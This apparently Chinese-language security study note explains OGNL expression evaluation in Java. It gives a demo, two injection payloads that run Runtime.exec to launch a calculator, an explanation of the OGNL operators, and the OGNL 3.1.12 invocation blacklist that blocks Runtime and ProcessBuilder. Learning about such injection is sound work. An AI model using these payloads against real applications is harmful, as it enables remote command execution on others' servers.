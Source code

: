 ```java
package org.example;

import ognl.Ognl;
import ognl.OgnlContext;
import ognl.OgnlException;

public class OGNL {
    public static void main(String[] args) throws OgnlException {
        Tester tester = new Tester();
        User Enterpr1se = new User("Enterpr1se", "114514");
        tester.setUser(Enterpr1se);
        //创建contex、设置root
        OgnlContext context=new OgnlContext();
        context.setRoot(tester);
        //设置表达式
        String expression="user.name";
        //解析表达式
        Object ognl= Ognl.parseExpression(expression);
        //调用获取值
        Object value = Ognl.getValue(ognl, context, context.getRoot());
        System.out.println(value);
    }
}

```

打印org.example.Tester.user.name的值。<br />有个设置根对象的操作，然后解析路径。

其中.操作符，用于调用属性或方法，让上一个字符串作为上下文。
```java
String expression="(#a=new java.lang.String(\"calc\")).(@java.lang.Runtime@getRuntime().exec(#a))";
```
这时候就会弹计算器，<br />或者
```java
String expression="(#a=new java.lang.String(\"calc\")),(@java.lang.Runtime@getRuntime().exec(#a))";
```
@操作符：用于调用静态属性、静态方法、静态变量，如上述的@java.lang.Runtime@getRuntime().exec。<br />#操作符用于调用非root对象<br />用于创建map，或用定义变量。<br />$操作符：一般用于配置文件，${name}<br />%操作符：计算其中的OGNL表达式，%{hacker.name}<br />List：直接使用{“green”, “red”, “blue”}创建<br />对象创建：new java.lang.String[]{“foobar”}。

<a name="QKip7"></a>
## 版本限制
3.1.12的黑名单
```java
public static Object invokeMethod(Object target, Method method, Object[] argsArray)
    throws InvocationTargetException, IllegalAccessException
{

    if (_useStricterInvocation) {
        final Class methodDeclaringClass = method.getDeclaringClass();  // Note: synchronized(method) call below will already NPE, so no null check.
        if ( (AO_SETACCESSIBLE_REF != null && AO_SETACCESSIBLE_REF.equals(method)) ||
            (AO_SETACCESSIBLE_ARR_REF != null && AO_SETACCESSIBLE_ARR_REF.equals(method)) ||
            (SYS_EXIT_REF != null && SYS_EXIT_REF.equals(method)) ||
            (SYS_CONSOLE_REF != null && SYS_CONSOLE_REF.equals(method)) ||
            AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) ||
            ClassResolver.class.isAssignableFrom(methodDeclaringClass) ||
            MethodAccessor.class.isAssignableFrom(methodDeclaringClass) ||
            MemberAccess.class.isAssignableFrom(methodDeclaringClass) ||
            OgnlContext.class.isAssignableFrom(methodDeclaringClass) ||
            Runtime.class.isAssignableFrom(methodDeclaringClass) ||
            ClassLoader.class.isAssignableFrom(methodDeclaringClass) ||
            ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) ||
            AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass) ) {
```
